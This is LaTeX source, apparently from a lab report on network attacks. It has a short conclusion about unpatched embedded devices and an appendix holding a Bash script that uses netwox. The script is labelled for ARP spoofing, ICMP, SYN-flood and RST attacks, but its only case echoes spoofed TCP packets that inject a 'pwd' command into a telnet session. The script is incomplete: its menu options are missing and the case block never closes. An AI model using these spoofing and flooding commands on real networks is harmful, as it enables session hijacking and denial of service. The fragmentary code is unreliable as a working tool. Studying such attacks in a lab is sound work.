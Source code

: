 \documentclass[12pt, a4paper, pdflatex]{article}
\begin{document}
The vulnerabilities presented here have already been addressed in newer versions of Linux kernel or \texttt{C} compiler, nevertheless, many embedded systems like: Internet cameras, NASes, and routers still use vulnerable software facilitating aforementioned attacks. It proves that we need to force high coding standards, build and use static analysis tools, especially in applications and systems of high security.

\vfill



\newpage
\begin{appendices}



\section{Shell script for performing attack\label{script1}}

\lstset{
	captionpos=b,
	frame=single,
	language=Bash,
	breaklines=true,
	caption="Script for performing ARP ICMP and SYN attacks",
	label=parta:script
}
\begin{lstlisting}

#!/bin/bash
sudo -v

echo "Type 1 for ARP; 2 for ICMP; 3 for SYNflood; 4 for RST"
read answer

VICTIM_IP='10.0.2.4'
VICTIM_MAC='08:00:27:a6:eb:87'

ATTACKER_IP='10.0.2.6'
GATEWAY='10.0.2.1'
ATTACKER_MAC='08:00:27:ee:0d:0f'

PORT=23
INT='eth7'

ATT=netwox

# Netwox tool numbers
ARP_TOOL=33
SYN_TOOL=76
ICMP_TOOL=86
RST_TOOL=78

echo "Victim ip is " $VICTIM_IP
echo "Victim mac is " $VICTIM_MAC
echo "Gateway is" $GATEWAY
echo "Attacker IP is" $ATTACKER_IP
echo "Attacker MAC is" $ATTACKER_MAC

case $answer in
5)

echo '40 --ip4-dontfrag --ip4-offsetfrag 0 --ip4-ttl 64 --ip4-src 10.0.2.5 --ip4-dst 10.0.2.4 --ip4-opt "" --tcp-src 51296 --tcp-dst 23 --tcp-seqnum 906520802 --tcp-acknum 937587335 --tcp-ack --tcp-psh --tcp-window 6912 --tcp-opt "" --tcp-data "7077640d00" --spoofip "best"'

echo 'netwox 40 --ip4-dontfrag --ip4-offsetfrag 0 --ip4-ttl 64 --ip4-src 10.0.2.5 --ip4-dst 10.0.2.4 --ip4-opt "" --tcp-src 51296 --tcp-dst 23 --tcp-seqnum 906520807 --tcp-acknum 937587340 --tcp-ack --tcp-psh --tcp-window 6912 --tcp-opt "" --spoofip "best"'



\end{lstlisting}
\end{appendices}
\end{document}
